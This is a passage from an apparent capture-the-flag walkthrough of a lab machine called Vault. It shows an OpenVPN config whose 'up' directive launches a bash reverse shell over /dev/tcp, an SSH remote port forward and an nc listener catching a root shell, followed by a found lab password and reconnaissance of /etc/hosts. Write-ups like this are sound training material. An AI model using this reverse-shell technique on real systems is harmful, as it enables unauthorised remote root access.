 dev tun

script-security 2

up ​"/bin/bash -c '/bin/bash -I &gt; /dev/tcp/192.168.122.1/6002 0&lt;&1 2&gt;&1&'"

Rather than run the Netcat listener on the Vault machine however, you can use another SSH remote port forwarder to tunnel the shell back to our local machine. To do this from an existing SSH session, you can use the special characters ~C at the beginning of the command prompt to drop into an SSH prompt and then set up the remote port forward:

dave@ubuntu:~$

ssh&gt; -R 6002:127.0.0.1:6002

Forwarding port.

dave@ubuntu:~$

Setting up the listener on the local machine will then give us a reverse shell on the DNS machine as root.

┌─\[rin@parrot\]─\[~/boxes/Vault\]

└──╼ $nc -lvnp 6002

listening on \[any\] 6002 ...

connect to \[127.0.0.1\] from \(UNKNOWN\) \[127.0.0.1\] 56806

bash: cannot set terminal process group \(1096\): Inappropriate ioctl for device

bash: no job control in this shell

root@DNS:/var/www/html\#

Looking around the box, you find that the ssh file in /home/dave has a password dav3gerous567.

Looking at the /etc/hosts file, you see an entry for the vault machine:

root@DNS:/home/dave\# cat /etc/hosts

cat /etc/hosts

127.0.0.1 localhost

127.0.1.1 DNS

192.168.5.2 Vault

\# The following lines are desirable for Ipv6 capable hosts

::1 localhost ip6-localhost ip6-loopback

ff02::1 ip6-allnodes

ff02::2 ip6-allrouters

The machine doesn’t respond to a ping but using nmap on the Vault machine, you find two ports that are closed:

PORT STATE SERVICE

53/tcp closed domain
